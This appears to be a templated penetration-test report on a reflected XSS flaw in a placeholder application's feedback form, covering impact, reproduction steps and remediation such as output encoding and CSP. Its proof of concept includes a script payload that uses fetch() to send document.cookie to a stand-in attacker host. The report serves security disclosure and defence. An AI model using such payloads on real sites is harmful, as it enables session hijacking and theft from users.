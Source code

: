 # Penetration Testing Writeup: XSS in Feedback Form

## Executive Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was identified in [Target
Application]’s feedback form during a penetration test. This allows attackers to
inject scripts that execute in the response, risking user security. This report
provides details and remediation steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Reflected
- **Severity**: High
- **Affected Component**: Feedback form submission
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/feedback`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 29, 2025

### Description

The feedback form reflects user inputs in the response without sanitization,
allowing script injection.

### Impact

- **Session Compromise**: Cookies can be stolen.
- **Phishing**: Fake forms can capture credentials.
- **Data Theft**: Feedback data can be exfiltrated.
- **Reputation Harm**: Defacement can damage trust.

### Proof of Concept

1. Submit the feedback form with: `<script>alert('Reflected XSS');</script>`.
2. Observe an alert on the response page.
3. Malicious payload:
   `<script>fetch('https://attacker.com/steal?cookie='+document.cookie);</script>`.

### Steps to Reproduce

1. Navigate to `https://[target-application]/feedback`.
2. Enter `<script>alert('Reflected XSS');</script>` in the feedback field.
3. Submit and confirm the alert.

## Remediation Recommendations

1. **Input Validation**:
   - Restrict feedback inputs to safe characters.
2. **Output Encoding**:
   - Encode outputs before rendering.
3. **Content Security Policy**:
   - Use CSP: `Content-Security-Policy: script-src 'self';`.
4. **Secure Coding**:
   - Train developers on XSS prevention.
5. **Regular Testing**:
   - Conduct security audits.

## Conclusion

The Reflected XSS vulnerability in [Target Application]’s feedback form requires
immediate remediation.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![Feedback XSS Alert](https://example.com/images/feedback-xss-alert.png)
